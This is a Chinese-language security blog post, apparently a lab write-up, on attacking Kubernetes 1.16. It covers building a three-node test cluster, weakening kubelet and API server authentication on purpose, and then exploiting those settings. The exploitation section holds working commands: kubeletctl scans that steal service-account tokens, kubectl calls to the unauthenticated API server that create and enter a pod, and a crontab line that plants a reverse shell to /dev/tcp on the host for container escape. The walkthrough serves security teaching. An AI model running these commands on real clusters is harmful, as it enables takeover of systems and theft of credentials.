








# 云安全之 K8s 攻击实践

```plain
声明：该公众号大部分文章来自作者日常学习笔记，未经授权，严禁转载，如需转载，联系洪椒攻防实验室公众号。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。
```

# 1.什么是 K8s

       Kubernetes 简称 k8s，是一个开源的用于编排云平台中多个主机上的容器化的应用，目标是让部署容器化的应用能简单并且高效的使用，提供了应用部署，规划，更新，维护的一种机制。其核心的特点就是能够自主的管理容器来保证云平台中的容器按照用户的期望状态运行着，管理员可以加载一个微型服务，让规划器来找到合适的位置，同时，Kubernetes 在系统提升工具以及人性化方面，让用户能够方便的部署自己的应用。常见的 k8s es 集群分布见下图：


-   Master：k8s 集群的控制节点，负责整个集群的决策调度，发现和响应集群的事件。Master 节点可以运行在集群中的任意一个节点上，但是最好将 Master 节点作为一个独立节点，不在该节点上创建容器，因为如果该节点出现问题导致宕机或不可用，整个集群的管理就会失效。
    
-   Node：k8s 集群的工作节点，每个集群中至少需要一台 Node 节点，它负责真正的运行 Pod，当某个 Node 节点出现问题而导致宕机时，Master 会自动将该节点上的 Pod 调度到其他节点。Node 节点可以运行在物理机上，也可以运行在虚拟机中。
    
-   Pod：在 k8s 集群中，一个 Pod 是一组共享网络和存储（可以是一个或多个）的容器。Pod 中的容器都是统一进行调度，并且运行在共享上下文中。一个 Pod 被定义为一个逻辑的 host，它包括一个或多个相对耦合的容器。
    

# 2.存在风险点

       随着越来越多企业开始上云的步伐，在攻防演练中常常碰到云相关的场景，例：公有云、私有云、混合云、虚拟化集群等。以往渗透路径「外网突破->提权->权限维持->信息收集->横向移动->循环收集信息」，直到获得重要目标系统。


# 3.模拟攻击案例

## 1.搭建 K8s 环境（v1.16.0）

三台 centos7 虚拟机分别代替 master，node1，node2

```plain
master: 192.168.17.133
node1:192.168.17.131
node2:192.168.17.130
```

```plain
# 修改 hostname 
hostnamectl set-hostname your-new-host-name 

# 查看修改结果 
hostnamectl status 

cat <<EOF >>/etc/hosts
192.168.17.133 master
192.168.17.131 node1
192.168.17.130 node2
EOF
#修改 host

cat /etc/hosts
#确认配置
```






```plain
# 安装 docker 所需的工具
yum install -y yum-utils device-mapper-persistent-data lvm2
# 配置阿里云的 docker 源
yum-config-manager --add-repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
# 指定安装这个版本的 docker-ce
yum install -y docker-ce-18.09.9-3.el7
# 启动 docker
systemctl enable docker && systemctl start docker
```

```plain
# 关闭防火墙
systemctl disable firewalld
systemctl stop firewalld

# 关闭 selinux
# 临时禁用 selinux
setenforce 0
# 永久关闭 修改/etc/sysconfig/selinux 文件设置
sed -i 's/SELINUX=permissive/SELINUX=disabled/' /etc/sysconfig/selinux
sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config

# 禁用交换分区
swapoff -a
# 永久禁用，打开/etc/fstab 注释掉 swap 那一行。
sed -i 's/.*swap.*/#&/' /etc/fstab

# 修改内核参数
cat <<EOF >  /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
EOF
sysctl --system
```




```plain
# 执行配置 k8s 阿里云源
cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://mirrors.aliyun.com/kubernetes/yum/repos/kubernetes-el7-x86_64/
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://mirrors.aliyun.com/kubernetes/yum/doc/yum-key.gpg https://mirrors.aliyun.com/kubernetes/yum/doc/rpm-package-key.gpg
EOF

# 安装 kubeadm、kubectl、kubelet
yum install -y kubectl-1.16.0-0 kubeadm-1.16.0-0 kubelet-1.16.0-0

# 启动 kubelet 服务
systemctl enable kubelet && systemctl start kubelet
```

```plain
# 这里需要大概两分钟等待，会卡在[preflight] You can also perform this action in beforehand using ''kubeadm config images pull
kubeadm init --image-repository registry.aliyuncs.com/google_containers --kubernetes-version v1.16.0 --apiserver-advertise-address 192.168.17.133 --pod-network-cidr=10.244.0.0/16 --token-ttl 0
#ip 地址替换成 master 地址
```



```plain
# 上面安装完成后，k8s 会提示你输入如下命令，执行
mkdir -p $HOME/.kube
sudo cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
sudo chown $(id -u):$(id -g) $HOME/.kube/config
```

```plain
kubeadm token create --print-join-command
```


```plain
# 安装 calico 网络插件
# 参考文档 https://docs.projectcalico.org/v3.9/getting-started/kubernetes/yum install wget
yum install wget
wget https://kuboard.cn/install-script/calico/calico-3.9.2.yaml
export POD_SUBNET=10.244.0.0/16
sed -i "s#192\.168\.0\.0/16#${POD_SUBNET}#" calico-3.9.2.yaml
kubectl apply -f calico-3.9.2.yaml
```


## 2.直接攻击某端口导致未授权访问

      kubelet 会在集群中每个节点运行，对容器进行生命周期的管理，如果 kubelet 配置不当，攻击者可创建恶意 Pod 尝试逃逸到宿主机。anonymous 默认为 false，修改为 true，并将 mode 从 Webhook 修改为 AlwaysAllow。

```plain
 vi /var/lib/kubelet/config.yaml
    anonymous:
        enabled: true
     
     
    authorization:
      mode: AlwayAllow
```



访问 kubelet 10250 服务，出现未授权访问。

       kubeletctl 是一个用于与 kubelet API 交互的命令行工具，可以通过 kubeletctl 执行命令获取 Node 权限。从 Node 节点窃取高权限服务账户 token，使用服务账户向 API Server 进行验证，从而获取集群权限。

```plain
wget https://github.com/cyberark/kubeletctl/releases/download/v1.11/kubeletctl_linux_amd64
chmod 777 kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 kubeletctl
#列出 kubelet 的所有 pod
./kubeletctl pods -i --server 192.168.17.132
#搜索容器里面的 Service Account
./kubeletctl scan token -i --server 192.168.17.132
```


## 3.模拟通过虚拟机攻击云管理平台，利用管理平台控制所有机器

      旧版本的 k8s 的 API Server 默认会开启两个端口：8080 和 6443。API Server 是集群的管理入口，任何资源请求或调用都是通过 kube-apiserver 提供的接口进行。默认情况下，API Server 提供两个端口服务，8080 和 6443，配置不当将出现未授权访问。

-   8080 端口，默认不启动，无需认证和授权检查，一旦暴露将导致未授权访问。
    
-   6443 端口，默认启动需要认证（k8s<1.16.0），如果出现配置错误，将 system:anonymous 用户绑定到 cluster-admin 用户组，将出现未授权访问。
    

```plain
vi /etc/kubernetes/manifests/kube-apiserver.yaml
    - --insecure-port=8080
    - --insecure-bind-address=0.0.0.0
#insecure-port 默认值为 0，将其修改为 8080 端口，再添加 insecure-bind-address=0.0.0.0，允许远程访问本地的 8080 端口。
```



`systemctl restart kubelet`重启服务后访问 8080 端口发现未授权


       接下来进一步利用 安装 Kubernetes 命令行工具 kubectl，对 Kubernetes 集群运行命令。你可以使用 kubectl 来部署应用、监测和管理集群资源以及查看日志。https://kubernetes.io/zh-cn/docs/tasks/tools/

```plain
kubectl.exe -s 192.168.17.133:8080 get nodes #同虚机里看到的
kubectl.exe -s 192.168.17.133:8080 get pods 
kubectl -s 192.168.17.133:8080 create -f test.yaml #创建一个 pod
kubectl -s 192.168.17.133:8080 --namespace=default exec -it test bash #进入一个名叫‘test’的容器
```

       未授权访问的情况下，kubectl 可以使用`-s`参数指定 Kubernetes API 服务器地址和端口，直接执行命令创建恶意 Pod，将其挂载到 Master 节点，从而实现对整个集群的接管。


 成功进入刚创建的 docker 容器 rpdef


```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.139.128/4444 0>&1\n" >> /mnt/etc/crontab
```

进入容器弹出一个 shell，在另一个虚拟机上开一个监听，成功进行容器逃逸




       检查发现反弹命令已经写进了 node 节点的定时任务中，成功拿下 node1 的权限，其他节点同理


192.168.17.131 为 node1 地址

> 参考：
> 
> -   云原生 kubernetes 安全 https://blog.csdn.net/qq\_34101364/article/details/122506768
>     
> -   【云攻防系列】从攻击者视角聊聊 K8S 集群安全（上）https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw
>     
> -   【云攻防系列】从攻击者视角聊聊 K8S 集群安全（下）https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ
>